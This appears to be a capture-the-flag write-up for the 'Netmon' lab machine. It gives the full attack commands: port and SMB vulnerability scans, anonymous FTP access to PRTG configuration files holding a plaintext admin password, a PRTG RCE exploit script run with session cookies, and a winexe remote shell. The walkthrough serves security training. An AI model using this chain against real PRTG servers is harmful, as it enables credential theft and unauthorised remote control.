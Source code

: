 # Netmon
## nmap
```
$ nmap 10.10.10.152 --top-ports 1000 --open -sV
```
![](https://i.imgur.com/ohWBicn.png)

It shows open smb service, we can check the probably of smb vulnerability with nmap.

```
$ nmap -v -p 139, 445 --script="smb-vuln-*,samba-vuln-*"  10.10.10.152
```
![](https://i.imgur.com/6qeLyv9.png)

It looks unavailable.
## gobuster
```
$ gobuster -u 10.10.10.152 -w /usr/share/seclists/Discovery/Web_Content/common.txt -s '200,204,301,302,307,403,500' -e
```
![](https://i.imgur.com/uwo1AQt.png)
## http
![](https://i.imgur.com/ggdC9S7.png)

Google it, I found that PRTG has a vulnerabilities:
- PRTG Network Monitor error caused password to be written to the PRTG Configuration.dat file in plain text.

![](https://i.imgur.com/ejmo2Ya.png)

That means we probably get username and password from configuration file.
## ftp
My habit is to try to log in anonymously first.
```
$ ftp 10.10.10.152
Name: anonymous
Password: anonymous
```
![](https://i.imgur.com/h5CiDey.png)

According to the vulnerability discovered by http, I found three configure files in "C:\ProgramData\paessler\PRTG Network Monitor".

![](https://i.imgur.com/YnDDrhF.png)

Download the three files:
```
$ get PRTG\ Configuratin.dat
$ get PRTG\ Configuratin.old
$ get PRTG\ Configuratin.old.bak
```

Finally, I'm find user/password string in the "PRTG Configuratin.old.bak".

```
$ cat "PRTG Configuratin.old.bak"
<!-- User: prtgadmin -->
PrTg@dmin2018
```
## http
Turning attention to the second vulnerability of PRTG:
- PRTG-Network-Monitor-RCE

![](https://i.imgur.com/Uet7N6l.png)

Then we log in website and use burpsuite to interupt request.

![](https://i.imgur.com/Vl1gD4T.png)

Record cookies, try using RCE exploit.
```
$ ./prtg-exploit.sh -u http://10.10.10.152 -c "_ga=GA1.4.66100571.1553662455; _gid=GA1.4.486255060.1553662455; OCTOPUS1813713946=ezAxNUE3MzI1LUQxQUUtNDdDRi04NTkyLTA1NzFENEU2MDdBRn0%3D; _gat=1"
```
![](https://i.imgur.com/NdaC5Is.png)

The exploit was successful, now we have an Administrator account.

The victim machine opened the smb sharing service, so we can use winexe to connect remotely.
```
$ winexe -U pentest%P3nT3st! //10.10.10.152 cmd.exe
```
![](https://i.imgur.com/lTKDFb7.png)
## user
Get user flag:

![](https://i.imgur.com/5xjGgbb.png)
## root
Get root flag:

![](https://i.imgur.com/QuuJszn.png)
